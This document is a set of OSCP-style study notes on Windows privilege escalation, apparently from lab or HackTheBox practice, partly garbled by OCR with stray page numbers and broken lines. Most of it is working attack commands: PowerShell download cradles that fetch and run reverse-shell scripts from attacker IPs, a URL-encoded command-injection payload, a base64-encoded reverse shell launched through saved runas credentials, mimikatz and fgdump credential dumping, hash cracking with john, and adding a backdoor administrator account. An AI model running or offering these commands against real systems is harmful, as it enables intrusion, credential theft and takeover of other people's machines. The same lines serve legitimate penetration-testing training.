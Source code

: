 ```yaml
---
title: Windows Privilege Escalation
parent: OSCP
grand_parent: Certifications
nav_order: 3
---
```


# Windows Privilege Escalation

```
icacls scsiaccess.exe
...
Everyone: (I)(F)
```
crosscompile useradd.c
i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c
wce -w
fgdump.exe
type 127.0.0.1.pwdump
john --wordlist=/usr/share/wordlists/rockyou.txt 127.0.0.1.pwdump
Is there python on dev windows machine
Use pyinstaller on dev windows machine
python pyinstaller.py --onefile ms11-080.py
Check for powershell
powershell whoami
whaomi /priv
cmdkey /list
run an exploit suggesters
If web server poke around databasel
Check if I can write in folder
echo PleaseSubsribe > test
1. Nishang
2. unicorn → meterpreter from a standard shell
UPGRADE TO NISHANG 1. Locate the PS > Invoke...reverse shell line in script and put at bottom so it executes in memory after transfer
2. Server python -m SimpleHTTPServer 80
3. powershell “IEX(New-Object NetWebClient).downloadString('http://10.10.14.7:8000/InvokePowerShellTcp.ps1')”
net user dan dan /add; net local
UNICORN
Exploit suggesters • Sherlock.ps1
• Powerup.ps1 → service misconfigs
• Exploit suggester ./windows-exploit-suggester.py
python windows-exploit-suggester.py -d 2017-05-27-mssb.xls -i systeminfo.txt
• jaws-enum.ps1
• Empire??
Sherlock.ps1
windows-exploit-suggester.py
Empire
PowerUp.ps1
46/67
locate PowerUp.ps1. Copy then add “Invoke-AllChecks” to end
http://10.10.10.9/ippsec.php?fexec=echo%20IEX(New-Object%20Net.WebClient).DownloadString(%27http://10.10.14.11:8000/
PowerUp.ps1%27)%20|%20powershell%20-noprofile%20-
Run Invokes from memory as the file transferred
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11:8000/jaws-enum.ps1')"
1. jaws-enum.ps1 JAWS enumeration
Currently stored credentials:
Target: Domain:interactive=ACCESS\Administrator
Type: Domain Password
User: ACCESS\Administrator
BURP (ctr-U to url encode the following)
%00{.exec|c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object
NetWebClient).downloadString('http://10.10.14.7:8000/InvokePowerShellTcp.ps1').}
powershell -ExecutionPolicy Bypass -File xyz.ps1
group Administrators dan /add
rdesktop 10.10.10.10 -u dan
2. jaws-enum.ps1 powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11:8000/jaws-enum.ps1')"
JAWS enumeration
Currently stored credentials:
Target: Domain:interactive=ACCESS\Administrator
Type: Domain Password
User: ACCESS\Administrator
PS C:\Users\Public\Desktop> dir
"ZKAccess3.5 Security System.lnk"
GET FILE CONTENTS SO WE KNOW HOW TO RUN AS ADMIN
get-Content "ZKAccess3.5 Security System.lnk" == linux “file”
$WScript = New-Object -ComObject Wscript.Shell
$shortcut = Get-ChildItem *.lnk
$Wscript.CreateShortcut($shortcut)
FullName : C:\Users\Public\Desktop\ZKAccess3.5
Security System.lnk
Arguments : /user:ACCESS\Administrator /savecred
"C:\ZKTeco\ZKAccess3.5\Access.exe"
Description :
Hotkey :
IconLocation : C:\ZKTeco\ZKAccess3.5\img\AccessNET.
ico,0
RelativePath :
TargetPath : C:\Windows\System32\runas.exe
WindowStyle : 1
WorkingDirectory : C:\ZKTeco\ZKAccess3.5
runas /user:ACCESS\Administrator /savecred whoami
This string 'http://10.10.14.3:8000/9002.ps1'
To this encoding prior to base64
--to-code UTF-16LE
Full command in kali
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11:8000/9002.ps1')" | iconv --to-code UTF-16LE |
47/67
base64 -w 0
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgB
Set up listener on KALI
nc -nlvp 9002
runas /user:ACCESS\Administrator /savecred "Powershell -EncodedCommand
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgB
Use mimikatz
Need write access to download, go to your users desktop
(New-Object Net.WebClient).DownloadFile('http://10.10.14.7:8000/mimikatz.exe', 'mimkatz.exe')
didnt work
tried from telnet sessiondir
powershell "IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.7:8000/mimikatz.exe', 'mimkatz.exe')
not recog as command
github Generic-AppLockerbypasses.md
Empire Chatterbox
Look at original nmap scan for other shite running (nmap localhost)
check permissions on webserver echo PleaseSubscribe > test
FAILS
Directory: C:\inetpub\wwwroot
Mode LastWriteTime Length Name
---- ------------- ------ ----
d---- 8/21/2018 11:30 PM aspnet_cli
ent
-a--- 8/24/2018 12:33 AM 391 index.html
-a--- 8/24/2018 8:39 PM 88712 out.jpg
PASSWORDS cmdkey /list - is a stored pw
Currently stored credentials:
Target: Domain:interactive=ACCESS\Administrator
Type: Domain Password
User: ACCESS\Administrator
→ Use Mimikatz
48/67
KERNEL EXPLOITS If no service packs or Hotfixes then possibly vulnerable to kernel exploits
pgdump.exe, pwdump.exe, fgdump.exe
type 127.0.0.1 pwdump
wce32.exe -w
wce64.exe -w
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords # gets passwords
Hashed passwords
https://crackstation.net
https://hashkiller.co.uk
john --wordlist=/usr/share/wordlists/rockyou.txt 127.0.0.1.pwdump
john --rules --wordlist=/usr/share/wordlists/rockyou.txt 127.0.0.1.pwdump
https://pentestlab.blog/2017/04/24/windows-kernel-exploits/
